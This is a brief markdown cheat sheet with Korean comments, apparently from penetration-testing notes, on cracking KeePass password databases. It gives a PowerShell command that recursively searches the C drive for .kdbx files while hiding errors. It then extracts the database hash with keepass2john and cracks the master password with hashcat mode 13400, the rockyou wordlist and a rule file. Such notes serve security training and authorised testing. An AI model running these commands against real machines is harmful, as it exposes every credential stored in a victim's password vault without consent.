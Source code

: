 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```
